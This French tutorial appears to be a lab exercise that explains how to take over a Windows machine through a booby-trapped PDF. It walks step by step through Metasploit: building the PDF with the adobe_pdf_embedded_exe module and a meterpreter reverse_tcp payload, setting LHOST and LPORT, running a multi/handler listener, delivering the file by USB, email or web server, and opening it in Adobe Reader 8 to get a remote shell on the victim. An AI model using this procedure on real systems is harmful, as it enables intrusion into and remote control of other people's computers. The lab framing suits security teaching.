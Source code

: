 # Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk)

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez help pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !